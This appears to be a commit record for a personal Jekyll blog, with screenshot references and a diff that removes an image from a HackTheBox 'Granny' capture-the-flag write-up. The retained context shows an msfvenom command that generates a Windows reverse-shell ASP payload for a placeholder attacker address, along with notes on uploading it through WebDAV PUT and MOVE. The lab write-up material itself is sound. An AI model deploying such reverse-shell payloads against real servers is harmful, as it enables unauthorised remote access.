

Before and after one commit to kyle-c-simmons/kyle-c-simmons.github.io, a Jekyll site: the page built from _posts/2019-20-04-htb-granny.markdown, in a window 1280 px wide and 900 px high, scrolled down 2346 px. Shown: the whole window, without its empty margins (290-989 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
Update 2019-20-04-htb-granny.markdown

```diff
--- a/_posts/2019-20-04-htb-granny.markdown
+++ b/_posts/2019-20-04-htb-granny.markdown
@@ -57,7 +57,6 @@
 asp as found in enumeration, an asp shell can be generated through msfvenom.
 
 `msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f asp > rshell.asp`
-<img src="/assets/images/htb/granny/msfvenom-rshell.png">
 
 Curl is used for sending the reverse shell as a .txt file. Then the MOVE method is used
 to change the file extension to `.asp`.
```
